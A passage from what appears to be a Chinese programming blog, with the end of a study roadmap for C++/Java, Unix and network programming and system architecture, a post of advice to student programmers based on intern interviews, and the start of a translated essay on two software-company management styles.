- 学会使用JUnit来对Java进行单元测试。
- 学习C语言和Java语言的coding standard 或 coding guideline。（我N年前写过一篇关C语言非常简单的文章——《[编程修养](http://blog.csdn.net/haoel/article/category/9200/2)》，这样的东西你可以上网查一下，一大堆）。
- 推荐阅读《[代码大全](http://product.china-pub.com/28351)》《[重构](http://product.china-pub.com/196374)》《[代码整洁之道](http://product.china-pub.com/196266)》

#### 高级深入

**1、C++ / Java 和面向对象**

我个人以为学好C++，Java也就是举手之劳。但是C++的学习曲线相当的陡。不过，我觉得C++是最需要学好的语言了。参看两篇趣文“[C++学习信心图](https://coolshell.cn/articles/2287.html)” 和“[21天学好C++](https://coolshell.cn/articles/2250.html)”

- 学习[（麻省理工免费课程）C++面向对象编程](https://coolshell.cn/articles/2474.html)

- 读我的 “[如何学好C++](https://coolshell.cn/articles/4119.html)”中所推荐的那些书至少两遍以上（如果你对C++的理解能够深入到像我所写的《[C++虚函数表解析](https://coolshell.cn/articles/12165.html)》或是《[C++对象内存存局](https://coolshell.cn/articles/12176.html)》，或是《[C/C++返回内部静态成员的陷阱](https://coolshell.cn/articles/12192.html)》那就非常不错了）

- 然后反思为什么C++要干成这样，Java则不是？你一定要学会对比C++和Java的不同。比如，Java中的初始化，垃圾回收，接口，异常，虚函数，等等。

- 实践任务：

  - 用C++实现一个BigInt，支持128位的整形的加减乘除的操作。
  - 用C++封装一个数据结构的容量，比如hash table。
  - 用C++封装并实现一个智能指针（一定要使用模板）。

- 《[设计模式](http://product.china-pub.com/25961)》必需一读，两遍以上，思考一下，这23个模式的应用场景。主要是两点：1）钟爱组合而不是继承，2）钟爱接口而不是实现。（也推荐《[深入浅出设计模式](http://product.china-pub.com/27862)》）

- 实践任务：

  - 使用工厂模式实现一个内存池。
  - 使用策略模式制做一个类其可以把文本文件进行左对齐，右对齐和中对齐。
  - 使用命令模式实现一个命令行计算器，并支持undo和redo。
  - 使用修饰模式实现一个酒店的房间价格订价策略——旺季，服务，VIP、旅行团、等影响价格的因素。

- 学习STL的用法和其设计概念  – 容器，算法，迭代器，函数子。如果可能，请读一下其源码。

- 实践任务：

  尝试使用面向对象、STL，设计模式、和WindowsSDK图形编程的各种技能

  - 做一个贪吃蛇或是俄罗斯方块的游戏。支持不同的级别和难度。
  - 做一个文件浏览器，可以浏览目录下的文件，并可以对不同的文件有不同的操作，文本文件可以打开编辑，执行文件则执行之，mp3或avi文件可以播放，图片文件可以展示图片。

- 学习C++的一些类库的设计，如： MFC（看看候捷老师的《[深入浅出MFC](http://product.china-pub.com/3565)》） ，Boost, ACE,  CPPUnit，STL （STL可能会太难了，但是如果你能了解其中的设计模式和设计那就太好了，如果你能深入到我写的《[STL string类的写时拷贝技术](http://blog.csdn.net/haoel/article/details/24058)》那就非常不错了，ACE需要很强在的系统知识，参见后面的“加强对系统的了解”）

- Java是真正的面向对象的语言，Java的设计模式多得不能再多，也是用来学习面向对象的设计模式的最佳语言了（参看[Java中的设计模式](https://coolshell.cn/articles/3320.html)）。

- 推荐阅读《[Effective Java](http://product.china-pub.com/195040)》 and 《[Java解惑](http://product.china-pub.com/197212)》

- 学习Java的框架，Java的框架也是多，如Spring, Hibernate，Struts 等等，主要是学习Java的设计，如IoC等。

- Java的技术也是烂多，重点学习J2EE架构以及JMS， RMI, 等消息传递和远程调用的技术。

- 学习使用Java做Web Service （[官方教程在这里](http://download.oracle.com/docs/cd/E17802_01/webservices/webservices/docs/2.0/tutorial/doc/)）

- **实践任务：** 尝试在Spring或Hibernate框架下构建一个有网络的Web Service的远程调用程序，并可以在两个Service中通过JMS传递消息。

C++和Java都不是能在短时间内能学好的，C++玩是的深，Java玩的是广，我建议两者选一个。我个人的学习经历是：

- 深究C++（我深究C/C++了十来年了）
- 学习Java的各种设计模式。

**2、加强系统了解**

重要阅读下面的几本书：

- 《[Unix编程艺术](http://product.china-pub.com/197413)》了解Unix系统领域中的设计和开发哲学、思想文化体系、原则与经验。你一定会有一种醍醐灌顶的感觉。

- 《[Unix网络编程卷1，套接字](http://product.china-pub.com/196770)》这是一本看完你就明白网络编程的书。重要注意TCP、UDP，以及多路复用的系统调用select/poll/epoll的差别。

- 《[TCP/IP详解 卷1:协议](http://product.china-pub.com/35)》- 这是一本看完后你就可以当网络黑客的书。了解以太网的的运作原理，了解TCP/IP的协议，运作原理以及如何TCP的调优。

- 实践任务：

  - 理解什么是阻塞（同步IO），非阻塞（异步IO），多路复用（select, poll, epoll）的IO技术。
  - 写一个网络聊天程序，有聊天服务器和多个聊天客户端（服务端用UDP对部分或所有的的聊天客户端进Multicast或Broadcast）。
  - 写一个简易的HTTP服务器。

- 《[Unix网络编程卷2，进程间通信](http://product.china-pub.com/196859)》信号量，管道，共享内存，消息等各种IPC…… 这些技术好像有点老掉牙了，不过还是值得了解。

- 实践任务：

  - 主要实践各种IPC进程序通信的方法。
  - 尝试写一个管道程序，父子进程通过管道交换数据。
  - 尝试写一个共享内存的程序，两个进程通过共享内存交换一个C的结构体数组。

- 学习《[Windows核心编程](http://product.china-pub.com/209058)》一书。把CreateProcess，Windows线程、线程调度、线程同步（Event,  信号量，互斥量）、异步I/O，内存管理，DLL，这几大块搞精通。

- **实践任务：**使用CreateProcess启动一个记事本或IE，并监控该程序的运行。把前面写过的那个简易的HTTP服务用线程池实现一下。写一个DLL的钩子程序监控指定窗口的关闭事件，或是记录某个窗口的按键。

- 有了多线程、多进程通信，TCP/IP，套接字，C++和设计模式的基本，你可以研究一下ACE了。使用ACE重写上述的聊天程序和HTTP服务器（带线程池）

- 实践任务：

  通过以上的所有知识，尝试

  - 写一个服务端给客户端传大文件，要求把100M的带宽用到80%以上。（注意，磁盘I/O和网络I/O可能会很有问题，想一想怎么解决，另外，请注意网络传输最大单元MTU）
  - 了解BT下载的工作原理，用多进程的方式模拟BT下载的原理。

**3、系统架构**

- 负载均衡。HASH式的，纯动态式的。（可以到Google学术里搜一些[关于负载均衡的文章](https://scholar.google.com.hk/scholar?q=负载均衡&hl=zh-CN&as_sdt=0&as_vis=1&oi=scholart)读读）
- 多层分布式系统 – 客户端服务结点层、计算结点层、数据cache层，数据层。J2EE是经典的多层结构。
- [CDN系统](https://en.wikipedia.org/wiki/Content_delivery_network) – 就近访问，内容边缘化。
- [P2P式系统](https://en.wikipedia.org/wiki/Peer-to-peer)，研究一下BT和电驴的算法。比如：[DHT算法](https://en.wikipedia.org/wiki/Distributed_hash_table)。
- 服务器备份，双机备份系统（Live-Standby和Live-Live系统），两台机器如何通过心跳监测对方？集群主结点备份。
- [虚拟化技术](https://en.wikipedia.org/wiki/Virtualization)，使用这个技术，可以把操作系统当应用程序一下切换或重新配置和部署。
- 学习[Thrift](http://thrift.apache.org/)，二进制的高性能的通讯中间件，支持数据(对象)序列化和多种类型的RPC服务。
- 学习[Hadoop](http://hadoop.apache.org/)。Hadoop框架中最核心的设计就是：MapReduce和HDFS。MapReduce的思想是由Google的一篇论文所提及而被广为流传的，简单的一句话解释MapReduce就是“任务的分解与结果的汇总”。HDFS是Hadoop分布式文件系统（Hadoop Distributed File System）的缩写，为分布式计算存储提供了底层支持。
- 了解[NoSQL数据库](https://en.wikipedia.org/wiki/NoSQL)（有人说可能是一个[过渡炒作的技术](https://coolshell.cn/articles/3609.html)），不过因为超大规模以及高并发的纯动态型网站日渐成为主流，而SNS类网站在数据存取过程中有着实时性等刚性需求，这使得目前NoSQL数据库慢慢成了人们所关注的焦点，并大有成为取代关系型数据库而成为未来主流数据存储模式的趋势。当前NoSQL数据库很多，大部分都是开源的，其中比较知名的有：MemcacheDB、Redis、Tokyo Cabinet(升级版为Kyoto Cabinet)、Flare、MongoDB、CouchDB、Cassandra、Voldemort等。

写了那么多，回顾一下，觉得自己相当的有成就感。希望大家不要吓着，我自己这十来年也在不断地学习，今天我也在学习中，人生本来就是一个不断学习和练级的过程。**不过，一定有漏的，也有不对的，还希望大家补充和更正**。（**我会根据大家的反馈随时更新此文**）欢迎大家通过我的微博（[@左耳朵耗子](http://weibo.com/haoel)）和twitter（@[haoel](https://twitter.com/haoel)）和我交流。

***—– 更新  2011/07/19 —–***

1）有朋友奇怪为什么我在这篇文章开头说了web+移动，却没有在后面提到iOS/Android的前端开发。因为我心里有一种感觉，移动设备上的UI最终也会被Javascript取代。大家可以用iPhone或Android看看google+，你就会明白了。

2）有朋友说我这里的东西太多了，不能为了学习而学习，我非常同意。我在文章的前面也说了要思考。另外，千万不要以为我说的这些东西是一些新的技术，这份攻略里95%以上的全是基础。而且都是久经考验的基础技术。即是可以让你一通百通的技术，也是可以让你找到一份不错工作的技术。

3）有朋友说学这些东西学完都40了，还不如想想怎么去挣钱。我想告诉大家，一是我今年还没有40岁，二是学无止境啊，三是我不觉得挣钱有多难，难的是怎么让你值那么多钱？无论是打工还是创业，是什么东西让你自己的价值，让你公司的价值更值钱？别的地方我不敢说，对于互联网或IT公司来说，技术实力绝对是其中之一。

4）有朋友说技术都是工具，不应该如此痴迷这句话没有错，有时候我们需要更多的是抬起头来看看技术以外的事情，或者是说我们在作技术的时候不去思考为什么会有这个技术，为什么不是别的，问题不在于技术，问题在于我们死读书，读死书，成了技术的书呆子。

5） 对于NoSQL，最近比较火，但我对其有点保守，所以，我只是说了解就可以。对于Hadoop，我觉得其在分布式系统上有巨大的潜力，所以需要学习。 对于关系型数据库，的确是很重要的东西，这点是我的疏忽，在原文里补充。

（全文完）

# 给程序员新手的一些建议

#####  [2011年07月12日 ](https://coolshell.cn/articles/4976.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [130 条评论](https://coolshell.cn/articles/4976.html#comments) 77,417 人阅读

前段时间因为实习生计划花了很多时间做了实习生招聘的工作，产生的一些想法，写在这里。

这次招聘过程中，我发现我们在校的学生有下面的这些特点：

**1）NB的项目。**当说到自己做过的项目时， 我发现他们做的事都是很NB。要么是研究Linux的底层内核，要么是图像识别处理，要么是推荐算法，要么做高性能计算，要么做数据挖掘，要么是移动方面的协议，还有一些很高深的课题我听不太懂的项目。这让我想起当年我在学校里的实习，对比起我用Java Applet 和 HTML做操作系统的教学课件，或是在公司里用Delphi/PowerBuilder做的那些MIS系统。让我觉得有些汗颜。

**2）OK的解决问题能力。**当问到算法题时，我发现他们的问题解决能力还OK。我一般问1到2个中低难度的算法题和1个基本的面向对象设计的题，都不难。我相信只要在学校里好好学习的人都应该答得出来。无非就是一些基本的算法和基本数据结构操作的问题，和比较基础的面向对象设计的题，说白了就是作业题。可惜的是，只有5%不到的同学能够在不给提示的情况下答出来，70%的人可以在给一定的提示下答出来，15%左右的同学需要提示到几乎给出答案才能答出来，还有10%的同学怎么给提示都答不出来。

**3）WTF的编码能力**。老实说，对于解算法题，我还是比较可以接受的，因为80%左右的同学在给予提示后都能描述出解题的算法，于是，我让他们把这个算法用他们最熟悉的语言写出来。但结果让我出乎意料，一段在解法很清楚的情况下只需要不到30行代码的小算法题，只有一个人能在10分钟几写完，其它的人基本所有的需要30分钟左右（甚至40分钟），有2、3个人居然写不出来。有一个比较极端的case是——有个同学花了十分钟都写不出从一个整型数组中找到最小的正数的代码。这个事让我觉得很惊讶，难道大家在做项目的时候不编程吗？

对于这种情况，我想给大家以下后一些建议：


- 我感到我们在校的学生正如“[为什么中国的网页这么烂](https://coolshell.cn/articles/3605.html)”中所说的——**他们习惯于获取大量的知识，而从不对这些知识进行思考和总结**。问题不是我们知道多少东西，问题是我们在获取这些知识的时候会不会去思考这些知识后的东西？比如：为什么会有这么多经典的数据结构，数组，链表，树，哈希表，图这些数据结构主要用来解决什么样的问题，他们的优势和劣势是什么？**没有思考过，就不算真正的懂，没有思考过，你将无法应对万变的问题，没有思考过，你将成为书呆子**。

- **多多实践而不是研究**。编程不是在实验室做科研搞理论啊，计算机这本就是一个实践性很强的的学科啊，这不是数学，这需要你多多的实践啊。我们不要真以为读的是——计算机科学（Computer Science ）就是搞理论的了，这里面需要很多很多的Engineering的工作。（我实在是很难想像，居然有这么多人写一般难度的程序居然会是那么痛苦的事）

- 我在我的新浪微博（[@左耳朵耗子](http://weibo.com/haoel)）里说的，我们不要以为做过项目，会写程序，我们就是程序员了。如果你只是在按部就班地写代码，你就是Coder，江湖叫“码农”，不要把自己当成“码农”，我们一定要对自己的代码，自己的设计不停地反思和总结，并精益求精，写程序本来就是一件有价值的事，这就像写篇作文人人都会写，但并不是人人都能把文章写好。**编程和写作都是一样的，这都是在搞创作啊。想做“码农”还是想做“程序员”？自己决定吧**。

- **我们的教育的确很“废柴”，但这不是我们成为“废柴”的原因**。如果我们的学习还停留在“别人给我什么我就学什么”的被动学习阶段，那么你真的不懂怎么是学习。虽然，我们的学校里并没有教你什么是“Version Control”，什么是“Coding Style”，什么是“Refactory”，什么是“Code Review”，什么是“Unit Test”，也没有告诉你一些经典的设计的和架构，等等，等等，但是这是什么年代了？这个时代不是像我上学那时——学校机房里上机用的电脑连内存和硬盘都没有，用5寸的低密软盘面对绿色显示器的286，上网还要“猫”，而且贵的要死（一小时22元），而且网上什么都没有时代了。**我们身边有很多很多优秀的人，网上有很多优秀的文章，书店里也有很多不错的书，而且我们的软件开发日趋成熟，如果我们还学不好的话，那么我们就是在犯罪！**

最后，和大家说一下公司的实习生招聘。这个事情其实是毕业生招聘的一个组成部分，也就是说，因为我国教育的问题，再加上学生自己的问题，导致毕业生量多质次的情况很严重，对于公司，其很难从学校招到一个比较不错的毕业生，这种情况已经不是新问题了，所以，也有很多公司都不招刚毕业的学生。因此，通过实习机会了解并招聘毕业生成了很多公司的毕业生招聘的手段。所以，在这里想告诉在校的同学们，千万不要以为实习计划就是字面上的实习。其实，这和正式的招聘没有什么差别，同样也要看你的能力的。

（全文完）

# 软件公司的两种管理方式

#####  [2011年07月06日 ](https://coolshell.cn/articles/4951.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [110 条评论](https://coolshell.cn/articles/4951.html#comments) 94,570 人阅读

这篇文章是我的一个外国的同事Gareth推荐给我的，我和他一起工作过一段时间。他之所以觉得非常不错，是因为这篇文章让他身有体会，他觉得我也一定会有体会，并让我考虑一下翻译到我的blog上来。我看完后觉得很有代表性，而且觉得说得太对了，所以翻译过来，**希望大家都读一读，最好转给你的公司老板**。

这篇文章来源于 StakeExchange上的一个问题——“[为什么BA和PM的薪水要比程序员要高？](http://programmers.stackexchange.com/questions/45776/why-do-business-analysts-and-project-managers-get-higher-salaries-than-programmer)”，顶在一楼的回复分析了这个原因，并指出了两种管理文化。

———————————————————正文开始————————————————————

一个简单的回答应该是——“因为在我们的社会里，我们总是会认为薪水和会和职位的层次绑在一起”。但是，这个答案同时也折射出一个事实——我们的薪资是基于我们的所理解的价值，但这并没有解释

1. **为什么PM（Project Manager）和BA（Business Analysts）在很多软件公司里在组织的上层？**
2. **为什么软件项目团队总是在最底层？**

这两个问题真是非常地值得我们去问，去思考。

总体来说，这个世界上存在两种不同的软件公司的组织结构。我把他们叫做 **Widget Factory**（小商品工厂） 和 **Film Crews**（电影工作组）.

Widget Factories 想要去解决 [怎么去激发被X理论所影响的人](https://en.wikipedia.org/wiki/Theory_X_and_theory_Y) 。X理论由 McGregor提出，这个理论是说，一般人的本性是懒惰的，工作越少越好，可能的话会逃避工作，大部分人对集体（公司，机构，单位或组织等）的目标不关心，因此管理者需要以强迫，威胁处罚，指导，金钱利益等诱因激发人们的工作源动力。于是，经理总是要去做他下属的工作。于是，基于这种前提下所思考出来的管理方式，很自然的就是——整个团队能够容易地被经理一个人所取代，这种团队中的每一个人都很容易被别人取代，在这种团队里，经理的工作能力不断地被加强。因些，这种公司一般使用树形层级的组织结构，而不是水平式的工作角色。

<iframe id="aswift_4" name="aswift_4" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=367379563&amp;adf=2169385192&amp;pi=t.aa~a.425447425~i.15~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157944&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4951.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bgWqsNA6dP_D6ki4FVoWY-Rhewae3duYjXGQW5EuVRJ_UmXOXiaCVY0xNFC7rQsd6qiqFgo&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158876025&amp;bpp=1&amp;bdt=1405&amp;idt=-M&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C1005x124&amp;nras=5&amp;correlator=3798025356746&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1771510821&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1649&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31074199%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvgRhz7vyUlmhqS7r2L3Cyx3lD5ZOvR8NJuOX-0VNaw9XLcHeUBdFSfqhiyPAEFni2UcTIlINiANrMAL_3-uDgk-bIs%2CABHeCvggLktH9ATza6OYcoE3OrEGXGgpLN1_Cn6FM9rPheWrnPDBYFWwovMb2cMommrGONMFll3rwhOG2ubg_IxfAKan4Bc-NhMlVkGYPD0LtKLC8rpKxQ&amp;pvsid=2288446357797922&amp;tmod=1738974273&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=5&amp;uci=a!5&amp;btvi=2&amp;fsb=1&amp;xpc=VAGXzMBuJc&amp;p=https%3A//coolshell.cn&amp;dtd=20" data-google-container-id="a!5" data-google-query-id="CIzBq9y89_4CFU1gDwIdU6kM8A" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>


Widget Factory 管理体系运作于软件需求的某种假设，这种假设需要BA在一个定义地非常明确的并且需要主管项目经理监管的流程的环境下，准备软件的规格说明书。这种软件制造业需要对项目定置足够的可被替换的编程和测试资源。整个工作由事先安排好的预算来驱动，这个预算由PM和BA在初始化business case的时候完成。

一个 Widget Factory 的公司的管理可以通过观察这个公司员工的谈话方式识别出来。他们很喜欢谈论Resource资源（包括干活的人也叫做resource），Process流程，Operating efficiency运作效率，uniformity一致性， repeatability可重复性，严格在控制对资源的使用，鲜明的工作角色和 鲜明的流程定义（inputs 和 outputs）。他们对实实在在的软件开发漠不关心，他们想要把理想中的软件开发运作变成他们看得见的图画。

<iframe id="aswift_5" name="aswift_5" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=367379563&amp;adf=1140964238&amp;pi=t.aa~a.425447425~i.21~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157944&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4951.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bgWqsNA6dP_D6ki4FVoWY-Rhewae3duYjXGQW5EuVRJ_UmXOXiaCVY0xNFC7rQsd6qiqFgo&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158876025&amp;bpp=1&amp;bdt=1405&amp;idt=-M&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C1005x124%2C704x280&amp;nras=6&amp;correlator=3798025356746&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1771510821&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2259&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31074199%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvgRhz7vyUlmhqS7r2L3Cyx3lD5ZOvR8NJuOX-0VNaw9XLcHeUBdFSfqhiyPAEFni2UcTIlINiANrMAL_3-uDgk-bIs%2CABHeCvggLktH9ATza6OYcoE3OrEGXGgpLN1_Cn6FM9rPheWrnPDBYFWwovMb2cMommrGONMFll3rwhOG2ubg_IxfAKan4Bc-NhMlVkGYPD0LtKLC8rpKxQ&amp;pvsid=2288446357797922&amp;tmod=1738974273&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=6&amp;uci=a!6&amp;btvi=3&amp;fsb=1&amp;xpc=jJkpNn6mmt&amp;p=https%3A//coolshell.cn&amp;dtd=49" data-google-container-id="a!6" data-google-query-id="CPHMrdy89_4CFY1cDwIdKMQOgw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

Film Crews 。这种公司认为人是有相当高的智力和创造力的，是自己可以激发自己的（陈皓注：即使没有外界的压力和处罚的威胁，他们一样会努力工作以期达到目的——人们具有自我调节和自我监督的能力），人们努力工作，并且可以享受工作（人们愿意为集体的目标而努力，在工作上会尽最大的努力，以发挥创造力，才智），就像孩子喜欢玩一样。 Film Crews 认为，每一个个体的自已专业能力，要远远优于那种被组织和协调出来的能力。因为经理不再代替每一个人，而树形的层次架构也不能很好的运作——人们不得不以比较复杂和形式合作才能把事搞定。工作职责变得非常地垂直——你需要具有从上到下的而比较宽泛的各种能力（陈皓注：每个人都需要有管理和技术能力），这种管理也就是基于 [McGregor的 Y理论](https://en.wikipedia.org/wiki/Theory_X_and_theory_Y)。

<iframe id="aswift_8" name="aswift_8" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=367379563&amp;adf=551293730&amp;pi=t.aa~a.425447425~i.23~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157944&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4951.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bgWqsNA6dP_D6ki4FVoWY-Rhewae3duYjXGQW5EuVRJ_UmXOXiaCVY0xNFC7rQsd6qiqFgo&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158876025&amp;bpp=1&amp;bdt=1406&amp;idt=0&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C1005x124%2C704x280%2C704x280&amp;nras=7&amp;correlator=3798025356746&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1771510821&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2850&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31074199%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvgRhz7vyUlmhqS7r2L3Cyx3lD5ZOvR8NJuOX-0VNaw9XLcHeUBdFSfqhiyPAEFni2UcTIlINiANrMAL_3-uDgk-bIs%2CABHeCvggLktH9ATza6OYcoE3OrEGXGgpLN1_Cn6FM9rPheWrnPDBYFWwovMb2cMommrGONMFll3rwhOG2ubg_IxfAKan4Bc-NhMlVkGYPD0LtKLC8rpKxQ&amp;pvsid=2288446357797922&amp;tmod=1738974273&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=9&amp;uci=a!9&amp;btvi=4&amp;fsb=1&amp;xpc=untsqLcckP&amp;p=https%3A//coolshell.cn&amp;dtd=53" data-google-container-id="a!9" data-google-query-id="CIKIrty89_4CFb5fDwIdx4sKeg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

对于一个Film Crew 的Director（注：有总监和导演的意思），他了解把一个伟大的软件组合起来的每一个碎片，他需要组织一个无与伦比的团队，并且要帮助这个团队能凝聚在一起，团结在一起工作。他的角色是鼓舞大家，守护着构想（Vision），提供方向和集中大家的精力。团队里的每一个人都很关键，因为“Director”相信软件的结果来自所有的参与者，以及他们的那种独一无二团队工作方式。大家都知道自己是这个事的一个明星，明星效应可以增加成每个人的成功的机会。而他们的构想(Vision)驱动着项目的预算和拨款。

